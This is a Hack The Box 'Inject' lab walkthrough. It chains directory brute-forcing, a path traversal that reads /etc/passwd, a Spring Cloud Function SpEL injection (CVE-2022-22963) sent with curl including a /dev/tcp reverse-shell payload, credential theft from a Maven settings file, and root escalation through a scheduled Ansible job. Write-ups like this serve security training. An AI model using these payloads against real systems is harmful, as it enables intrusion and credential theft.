 # Inject Writeup - by Thammanant Thamtaranon  
- Inject is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.204`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed two open ports: 22 (SSH) and 8080 (HTTP).

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch` with `dirsearch -u 10.10.11.204:8080` and discovered the `/upload` path. When I uploaded a file there, it returned a link to view the uploaded image, which used the path `show_image?img=`.  
![Dirsearch_Scan](Dirsearch_Scan.png)  

## Exploitation  
- I attempted a path traversal by accessing `/show_image?img=../../../../../../../etc/passwd` and successfully retrieved the `/etc/passwd` file. This confirmed the existence of users `phil` and `frank`.  
![PASSWD](PASSWD.png)  

- I then read the configuration file to determine the technology used and found `pom.xml`, indicating that the application was built using Java and Spring Boot.  
![POM](POM.png)  

- I researched potential vulnerabilities for this setup and found **CVE-2022-22963**, which is an Expression Language (SpEL) injection vulnerability in Spring Cloud Function due to improper input validation in its Routing Function feature.  

- To confirm the vulnerability, I navigated to `http://10.10.11.204:8080/functionRouter` and received an HTTP 500 Internal Server Error, indicating that the endpoint was indeed vulnerable.  

- I then tested a proof-of-concept payload that created a file in `/tmp` using:  
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder(\"/bin/sh\",\"-c\",\"touch /tmp/test\").start()" \
-d "test"
```
- I verified the file creation using path traversal, which confirmed that the injection worked.  
![POC](POC.png)  

- After confirming the vulnerability, I crafted a reverse shell payload:  
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder('/bin/bash','-c','bash -i >& /dev/tcp/10.10.16.11/4444 0>&1').start()" \
-d "test"
```
- This successfully gave me a shell as the user `frank`.  
![Frank](Frank.png)  

- While exploring Frank's home directory, I found `.m2/settings.xml` containing credentials for the user `phil`. I then ran `su phil` to switch to Phil's account and obtained the user flag.  
![Phil](Phil.png)  

## Privilege Escalation  
- I attempted to run `sudo -l`, but Phil did not have sudo privileges.  
- Running `id` showed that Phil belonged to the `staff` group.  
![ID](ID.png)  

- I searched for files and directories owned by the `staff` group using `find / -group staff 2>/dev/null` and discovered `/opt/automation/tasks`.  
![Playbook](Playbook.png)  

- I monitored running processes using `pspy` and noticed an interesting root process executing:  
`2025/08/15 08:22:01 CMD: UID=0     PID=15753  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml`  

- Since this process runs as root and executes all `.yml` files in that directory, I created `exploit.yml` and waited for the scheduled task to execute it.  

- When the task ran, it executed my payload as root, which set the SUID bit on /bin/bash.
![Root](Root.png)  

- Finally, I retrieved the root flag and completed the box.
